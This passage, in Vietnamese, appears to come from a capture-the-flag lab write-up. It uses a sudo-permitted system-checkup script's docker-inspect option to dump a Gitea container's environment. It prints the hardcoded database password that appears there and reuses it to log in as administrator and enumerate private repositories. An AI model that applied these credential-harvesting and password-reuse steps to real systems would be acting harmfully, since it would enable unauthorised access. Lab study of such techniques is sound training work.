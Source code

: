 Theo thông tin được cung cấp ở https://docs.docker.com/config/formatting/, `Docker` tận dụng các template `Go` cho phép user sửa đổi định dạng output của các lệnh cụ thể. Trang web đề cập cụ thể đến việc sử dụng template format `{{json .}}`, template này hiển thị tất cả thông tin về container theo format JSON. Do đó, có thể sử dụng `{{json .}}` làm đối số `format` theo yêu cầu của đối số `docker-inspect` của script.

Để đọc output JSON một cách thuận tiện, có thể sử dụng `jq` để phân tích cú pháp output JSON thành format có thể đọc được. `jq` có thể được cài đặt bằng lệnh sau, tuy nhiên, nó đã có sẵn trên target machine.

```
sudo apt-get -y install jq
```

Bây giờ chạy script với các tham số thích hợp cho đối số `docker-inspect`.

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
```

Có thể kiểm tra output để phát hiện mật khẩu `Gitea` được hardcode trong phần `Env`, bao gồm các biến môi trường.

```
[** SNIP **]
 "Tty": false,
    "OpenStdin": false,                                                                 
                                 
    "StdinOnce": false,                                                                 
                                 
    "Env": [                                                                           
                       
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],
    "Cmd": [
      "/bin/s6-svscan",
      "/etc/s6"
    ],
 [** SNIP **]
```

Sử dụng mật khẩu đã lấy được là `yuiu1hoiu4i5ho1uh`, có thể đăng nhập vào ứng dụng `Gitea` với tư cách là user `administrator`.

Bây giờ có thể enum các private repository đã đề cập ở trên để tìm repository `scripts`, chứa các file đã thấy trong thư mục `/opt/scripts` của remote host.
